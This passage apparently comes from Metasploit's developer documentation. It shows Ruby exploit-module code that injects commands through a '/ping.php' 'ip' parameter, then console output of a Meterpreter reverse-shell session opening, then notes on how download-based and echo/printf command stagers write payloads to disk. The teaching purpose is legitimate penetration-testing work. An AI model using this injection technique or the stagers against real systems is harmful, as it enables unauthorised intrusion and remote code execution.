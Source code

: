 We do that in `execute_command` using [[HttpClient|./How-to-Send-an-HTTP-Request-Using-HttpClient.md]]. Notice there is actually some bad character filtering involved to get the exploit working correctly, which is expected:

```ruby
def filter_bad_chars(cmd)
  cmd.gsub!(/chmod \+x/, 'chmod 777')
  cmd.gsub!(/;/, ' %26%26 ')
  cmd.gsub!(/ /, '+')
end

def execute_command(cmd, _opts = {})
  send_request_cgi(
    {
      'method' => 'GET',
      'uri' => '/ping.php',
      'encode_params' => false,
      'vars_get' => {
        'ip' => "127.0.0.1+%26%26+#{filter_bad_chars(cmd)}"
      }
    }
  )
end

def exploit
  print_status('Exploiting...')
  execute_cmdstager
end
```

And let's run that, we should have a shell:


```msf
msf exploit(cmdstager_demo) > run

[*] Started reverse TCP handler on 10.6.0.92:4444
[*] Exploiting...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 10.6.0.92
[*] Meterpreter session 1 opened (10.6.0.92:4444 -> 10.6.0.92:51522) at 2016-06-10 11:51:03 -0500
```

# Flavors

Now that we know how to use the `Msf::Exploit::CmdStager` mixin, let's take a look at the command
stagers you can use.  As mentioned above there are 2 general approaches to staging an executable on disk: by invoking a command that will download the executable file to disk like wget, curl, or fetch, or by breaking the executable file into pieces and including them commands themselves to write it to disk like echo, printf, or vbs. This delineation can be important, as trying to wite a stageless binary payload to disk using a stager that has to include the chunked payload in it will require the execution of dozens of commands, often each one having the signature of the exploit.  It is also useful to know the `printf` flavor is the only flavor that embeds the payload into the commands but does ***not*** use `echo`.
